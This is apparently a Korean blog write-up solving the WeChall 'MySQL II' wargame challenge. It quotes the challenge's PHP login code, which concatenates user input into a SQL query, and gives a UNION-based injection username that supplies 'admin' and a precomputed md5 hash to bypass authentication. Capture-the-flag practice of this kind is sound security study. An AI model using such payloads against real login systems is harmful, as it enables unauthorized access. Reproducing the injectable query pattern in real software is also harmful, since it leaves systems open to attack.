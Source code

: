 ```yaml
---
title : "Wechall - MySQL II"
categories : [Wargame, Wechall]
tags: [sql injection]
---
```


## MySQL Authentication Bypass II
<hr style="border-top: 1px solid;"><br>

```
This one is the same as MySQL1, 
but you have to come up with a more advanced injection 
to trick this authentication.

Your mission is again: Login yourself as admin.
Again you are given the sourcecode, also as highlighted version.

Enjoy!
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

```php
$password = md5($password);
        
$query = "SELECT * FROM users WHERE username='$username'";

#############################
### This is the new check ###
if ($result['password'] !== $password) {
        echo GWF_HTML::error('Auth2', $chall->lang('err_password'), false);
        return false;
} #  End of the new code  ###
#############################
        
if (strtolower($result['username']) === 'admin') {
        $chall->onChallengeSolved(GWF_Session::getUserID());
}
```

<br>

admin 아이디를 불러오고, 가져온 비밀번호와 입력한 비밀번호를 md5화 한 값이 동일해야 함.

따라서 union select를 이용해 1을 md5화 한 값을 넣어주고 비밀번호로 1을 입력하면 성공.

<br>

```
username : ' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b' #
password : 1
```

<br><br>
<hr style="border: 2px solid;">
<br><br>
